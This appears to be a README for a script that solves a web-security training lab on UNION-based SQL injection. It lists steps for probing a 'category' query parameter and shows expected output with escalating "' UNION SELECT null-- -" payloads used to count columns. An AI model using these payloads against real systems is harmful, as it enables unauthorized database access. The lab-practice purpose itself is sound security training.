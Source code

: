 ## Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ python main.py
```

## Expected Output

```
⦗#⦘ Injection parameter: category
❯❯ Trying payload: ' UNION SELECT null-- -
❯❯ Trying payload: ' UNION SELECT null, null-- -
❯❯ Trying payload: ' UNION SELECT null, null, null-- -
⦗#⦘ Number of columns: 3
🗹 The lab should be marked now as solved
```
